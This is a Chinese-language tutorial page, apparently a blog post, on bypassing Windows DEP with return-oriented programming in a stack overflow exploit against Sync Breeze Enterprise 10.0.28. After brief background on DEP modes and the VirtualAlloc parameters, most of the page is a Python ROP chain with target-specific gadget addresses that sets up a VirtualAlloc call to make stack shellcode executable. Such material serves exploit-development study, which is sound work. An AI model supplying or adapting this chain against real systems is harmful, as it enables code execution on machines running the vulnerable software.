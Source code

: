 ```yaml
---
layout: default
---
```


 >- 使用 Sync Breeze Enterprise 10.0.28 用于测试对象. 
 >- 由于 Sync Breeze Enterprise 10.0.28 未导入VirtualAlloc, 使用GetLastError地址替换.
 
 ## DEP 简介
#### DEP 总共有4种模式.
>- OptIn:           	DEP 只对系统进程和指定进程开启.
> - OptOut:        	DEP 对所有进程开启,除非指定了特定进程不开启.
> - AlwaysOn :   	DEP 始终开启.
>-  AlwasysOff : 	DEP 始终关闭.
>-  win7 和 win10 默认使用 OptIn. 	windows Server 2012 或  Windows Server 2019 默认使用AlwaysOn.
#### 为了兼容性问题, 有些情况下可以对进程开启或关闭 DEP
>- LdrpCheckNXCompatibility 	用于检查以确定是否应为进程启动DEP支持. (ntdll.dll)
>-  NtSetInformationProcess 		用于是开启或禁用正在运行的进程的DEP. (ntdll.dll)

#### win10 强制开启指定进程DEP
>安全中心 -> 打开Windows安全中心 -> 应用和浏览器控制 -> Exploit Protection -> 程序设置 -> 添加程序自定义 -> 数据执行保护(DEP)
>- 编译过程中加入 /NXCOMPAT标志 , 在进程运行期间无法禁用DEP. 
> - 这意味着在整个过程中无法关闭 DEP, 那么唯一的选择就是规避系统的NX检查.
---
##  Return  Oriented Programming (ROP)
> ROP 原理是用程序中己有的代码片段来组成可执行的代码链.
> 通过将不同代码片段地址注入到栈中, 使用RET来控制程序流程.
> 最终调用 VirtualAlloc,VirtualProtect 等函数改写内存权限执行Shellcode.
```
> 假设栈内数据如下的情况下,代码会依次执行. 使用栈来控制RET的跳转.

  ESP 0 -> 0x1013fc06  	# xor eax, eax ; ret ;
  ESP 4 -> 0x101229f2	# inc eax ; ret ;
  ESP 8 -> 0x10114901	# mov  [ecx], eax ; ret ;
```
#### 使用rp++获取Gadgets
```
- https://github.com/0vercl0k/rp
- rp-win-x86.exe -f Test.exe -r 5 > rop.txt  
```

#### 使用VirtualAlloc改变虚拟地址属性
```
 LPVOID WINAPI VirtualAlloc(
   _In_opt_ LPVOID lpAddress,
   _In_     SIZE_T dwSize,
   _In_     DWORD  flAllocationType,
   _In_     DWORD  flProtect
 );
```
>- pAddress: 如果指向己分配页面,则可以使用flProtect改变页面属性.
>- dwSize: 以页为单位 Shellcode如果小于0x1000字节, dwSize在0x01~0x1000之间即可.
>- flAllocationType: 必须设置为MEM_COMMIT (0x00001000).
>- flProtect: 必须设置为PAGE_EXECUTE_READWRITE (0x00000040).

#### 调用栈信息
- 将以下栈数据放到溢出EIP之前. 
```
0d2be300 75f5ab90 -> KERNEL32!VirtualAllocStub (kernel32.dll符号表中名字为VirtualAllocStub)
0d2be304 0d2be488 -> Return address (Shellcode on the stack)
0d2be308 0d2be488 -> lpAddress (Shellcode on the stack)
0d2be30c 00000001 -> dwSize
0d2be310 00001000 -> flAllocationType
0d2be314 00000040 -> flProtect
```
#### 需要解决的问题
>- 得到栈地址 (通过PUSH ESP; POP REGISTER; 来获取)
>- 得到 VirtualAlloc 地址 (通过IAT表获得)
>- 得到 Shellcode 地址 (通过计算溢出数据来计算)
>- dwSize, flAllocation Type和 flProtect 包含0x00字符. (通过负数运算,自增,自减,取反等方式写入)

#### 参考代码
```
  #-----------调用框架----------
  va = pack('<L', 0x45454545)	# KERNEL32!VirtualAllocStub
  va += pack('<L', 0x46464646)	# Return address (Shellcode on the stack)
  va += pack('<L', 0x47474747)	# lpAddress (Shellcode on the stack)
  va += pack('<L', 0x48484848) 	# dwSize
  va += pack('<L', 0x49494949) 	# flAllocationType
  va += pack('<L', 0x51515151)	# flProtect

  #-----------得到栈地址----------
  eip = pack('<L', 0x10154112)	# push esp ; inc ecx ; adc eax, 0x08468B10 ; pop esi ; ret ; (将ESP地址赋值给ESI)
  rop = pack("<L", 0x41414141)	# offset (栈偏移对齐,根据漏洞情况而定)
  rop += pack('<L', 0x10052048)	# mov eax, esi ; pop esi ; retn 0x0004 ; (将ESP地址赋值给EAX(EAX 操作指令更多))
  rop += pack("<L", 0x41414141)	# alignment pop esi
  
  #-----------得到VA地址 (esp - 20)----------
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0x41414141)	# alignment retn 0x0004 (先RET然后ESP+4)
  rop += pack("<L", 0xFFFFFFE0)	# -0x00000020 = 0xFFFFFFE0
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ;(eax = esp - 0x20 指向VA栈顶)
  rop += pack("<L", 0x100baecb)	# xchg eax, ecx ; ret ; 
  
  #-----------写入函数地址到 VA (esp - 20)----------
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ; (eax = GetLastError IAT Address)
  rop += pack("<L", 0x10168040)	# GetLastError IAT Address
  rop += pack("<L", 0x1014dc4c)	# mov eax,  [eax] ; ret ; (eax = GetLastError 虚拟地址)		 
  rop += pack("<L", 0x10114901)	# mov [ecx], eax ; retn 0x000C ; (GetLastError 虚拟地址 写入VA栈顶)
  
  #-----------写入返回地址到 VA + 4 (esp - 20)----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	#  pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFEB8)	# -0n328 = 0xFFFFFEB8
  rop += pack("<L", 0x1014c168)	# sub eax, ebp ; pop esi ; pop ebp ; pop ebx ; ret ; (shellcode偏移,大小根据情况而定)
  rop += b"A" * 0xC				# alignment 3 pop
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; (VA + 4 = Return address (Shellcode on the stack))
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ;
  
  #-----------写入lpAddress到地址 VA + 8 (esp - 18)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 4 = lpAddress address (Shellcode on the stack))
  
  #-----------写入dwSize到地址 VA + C (esp - 14)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1013fc06)	# xor eax, eax ; ret ;
  rop += pack("<L", 0x101229f2)	# inc eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 8 = dwSize)
  
  #-----------写入flAllocationType到地址 VA + 10 (esp - 10)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFEFFF)	# -0x00001000 = 0xFFFFEFFF
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + C = flAllocationType)
  
  #-----------写入flProtect到地址 VA + 14 (esp - C)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFFFC0)	# 0x00000040 = 0xFFFFFFC0
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 10 = flProtect)
  
  #-----------调用函数 KERNEL32!VirtualAllocStub----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFFEC)	# 0n20 = FFFFFFEC 
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ; (还原EAX地址到VA栈顶)
  rop += pack("<L", 0x10158c35)	# xchg eax, esp ; ret ; (将VA栈顶地址赋值给ESP)
```

> [DEP Bypass  参考](https://www.youtube.com/watch?v=phVz8CqEng8)
> [Sync Breeze Enterprise 10.0.28 栈溢出参考](https://blog.csdn.net/faint23/article/details/138291631)